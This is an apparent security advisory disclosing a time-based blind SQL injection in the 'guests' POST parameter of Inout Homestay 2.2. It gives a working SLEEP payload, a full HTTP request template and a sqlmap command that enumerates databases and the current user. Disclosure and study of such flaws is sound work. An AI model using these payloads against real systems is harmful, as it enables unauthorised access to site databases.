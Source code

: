 # Information
```
Vulnerability Name  : Remote Blind SQL Injections in Inout Homestay
Product             : Inout Homestay
version             : 2.2
Date                : 2022-05-26
Vendor Site         : https://www.inoutscripts.com/products/inout-homestay/
POC                 : https://github.com/bigb0x/CVEs/blob/main/Inout-Homestay-2-2-sqli.md
CVE-Number          : In Progess
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

Inout Homestay Version 2.2 suffers from time-based blind SQL injection. POST parameters "guests" is vulnerable to SQL imjection attacks.This will allow remote non-authenticated attackers to inject SQL code. This could result in full information disclosure.
<br>

## Vulnerable Parameter: guests (POST)

<br>

Vulnerability: time-based blind SQL injection in guests (POST) parameter.
Vulnerabile file: index.php
<br>

## Vulnerable Parameter: guests (POST)
Payload: address=3137 Laguna Street&guests=1' AND (SELECT 1769 FROM (SELECT(SLEEP(5)))XPZb) AND
'ADfU'='ADfU&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San Francisco&searchstate=NY

<br>

### HTTP Post Request
`
POST /index.php?page=search/rentals HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://vlun-host.com/
Cookie: currencyid=10; currencycode=BYR; language=2; io_lang_code=es
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 189
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: vlun-host.com
Connection: Keep-alive
address=3&guests=-1 [inject_sql_here]&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San%20Francisco&searchstate=NY

`
<br>
### POC: sqlmap command:
`
python sqlmap.py -r homestay.txt  -p guests --dbms=MySQL --banner --random-agent --current-db --dbs --current-user
`
<br>

### output:

<br>
<img src="./resources/homestay-sqlmap3.png">
<br>
<img src="./resources/homestay-sqlmap4.png">
<br>


## Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-22: Advisory published
```

<br>

## Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed[at]gmail.com

```

